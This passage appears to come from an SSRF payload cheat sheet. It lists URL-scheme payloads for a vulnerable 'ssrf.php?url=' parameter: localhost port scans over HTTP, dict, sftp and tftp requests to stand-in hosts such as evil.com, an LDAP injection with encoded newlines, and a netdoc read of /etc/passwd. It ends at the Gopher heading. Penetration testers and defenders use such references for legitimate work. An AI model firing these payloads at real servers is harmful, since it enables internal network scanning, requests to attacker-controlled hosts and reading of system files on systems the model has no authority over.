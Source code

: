 ### HTTP

Allows an attacker to fetch any content from the web, it can also be used to scan ports.

```powershell
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
```

![SSRF stream](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/SSRF_stream.png?raw=true)

### Dict

The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

```powershell
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

### SFTP

A network protocol used for secure file transfer over secure shell

```powershell
ssrf.php?url=sftp://evil.com:11111/
```

### TFTP

Trivial File Transfer Protocol, works over UDP

```powershell
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

### LDAP

Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

```powershell
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

### Netdoc

Wrapper for Java when your payloads struggle with "`\n`" and "`\r`" characters.

```powershell
ssrf.php?url=netdoc:///etc/passwd
```

### Gopher
